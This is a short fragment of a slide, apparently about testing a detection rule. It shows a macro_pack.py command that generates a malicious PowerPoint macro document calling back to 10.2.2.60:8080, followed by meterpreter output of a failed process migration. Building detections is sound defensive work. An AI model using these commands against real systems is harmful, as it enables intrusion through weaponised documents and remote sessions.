

# Trigger rule
Generate sample
echo 10.2.2.60  8080 | macro_pack.py –t WEBMETER –G webmeter.pptm

Trigger
meterpreter > migrate 5504
[*] Migrating from 7632 to 5504...
[-] core_migrate: Operation failed: Access is denied.